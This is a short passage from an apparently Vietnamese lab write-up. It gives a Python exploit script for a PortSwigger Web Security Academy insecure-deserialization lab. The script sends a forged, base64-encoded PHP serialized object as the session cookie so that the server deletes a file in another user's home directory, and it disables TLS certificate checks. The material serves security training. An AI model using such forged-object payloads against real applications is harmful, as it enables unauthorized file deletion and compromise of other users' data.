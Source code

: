 ![image](https://hackmd.io/_uploads/r1n8qn1j6.png)

mình đã viết lại script khai thác

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup
import base64
from urllib.parse import quote

url = 'https://0ac100c20301582f81ce454e00f300f8.web-security-academy.net'

session = requests.Session()

# Đăng nhập
data_login = {
    'username': 'wiener',
    'password': 'peter',
}

response = requests.post(
    url + "/login",
    data = data_login,
)

# lấy data từ cookie và xử lí
data_cookies = 'O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}'
encode_base64 = base64.b64encode(data_cookies.encode('utf-8')).decode('utf-8')
encode_url = quote(encode_base64)
solve = encode_url

cookies = {
    'session': solve,
}

# dùng cookie đã sử lý để xóa carlos
response = requests.get(
    url + '/product?productId=1',
    cookies=cookies,
    verify=False,
)

# print(response.text) # hiển thị response có flag
soup = BeautifulSoup(response.text, 'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/Sk7a0bdYT.png)
